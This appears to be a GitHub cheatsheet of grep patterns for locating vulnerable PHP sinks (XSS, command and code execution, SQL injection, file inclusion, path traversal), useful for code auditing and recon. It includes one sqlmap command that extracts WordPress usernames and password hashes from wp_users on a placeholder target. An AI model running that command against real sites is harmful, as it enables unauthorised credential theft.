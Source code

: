 # PHP vulnerability recon

A cheatsheet for finding vulnerable PHP code using grep. List is categorized by vuln type you generally find during recon with that command. Original source of these is long forgotten.

XSS:
----
```grep -Ri "echo" .```

```grep -Ri "\$_" . | grep "echo"```

```grep -Ri "\$_GET" . | grep "echo"```

```grep -Ri "\$_POST" . | grep "echo"```

```grep -Ri "\$_REQUEST" . | grep "echo"```

Command execution:
------------------
```grep -Ri "shell_exec(" .```

```grep -Ri "system(" .```

```grep -Ri "exec(" .```

```grep -Ri "popen(" .```

```grep -Ri "passthru(" .```

```grep -Ri "proc_open(" .```

```grep -Ri "pcntl_exec(" .```

Code execution:
---------------
```grep -Ri "eval(" .```

```grep -Ri "assert(" .```

```grep -Ri "preg_replace" . | grep "/e"```

```grep -Ri "create_function(" .```

SQL Injection:
--------------
```grep -Ri "\$sql" .```

```grep -Ri "\$sql" . | grep "\$_"```

SQLMAP Cheatsheet for WordPress:
--------------------------------
```
sqlmap -u "http://target.tld/?paramater=1" -p "parameter" --technique=B --dbms=mysql --suffix=")--" --string="Test" --sql-query="select user_login,user_pass from wp_users"
```

Information leak via phpinfo:
-----------------------------
```grep -Ri "phpinfo" .```

Find dev and debug modes:
-------------------------
```grep -Ri "debug" .```

```grep -Ri "\$_GET['debug']" .```

```grep -Ri "\$_GET['test']" .```

RFI/LFI:
--------
```grep -Ri "file_include" .```

```grep -Ri "include(" .```

```grep -Ri "require(" .```

```grep -Ri "require(\$file)" .```

```grep -Ri "include_once(" .```

```grep -Ri "require_once(" .```

```grep -Ri "require_once(" . | grep "\$_"```

Misc:
-----
```grep -Ri "header(" . | grep "\$_"```

```grep -Ri '$_SERVER["HTTP_USER_AGENT"]' .```

Path Traversal:
---------------
```grep -Ri file_get_contents .```
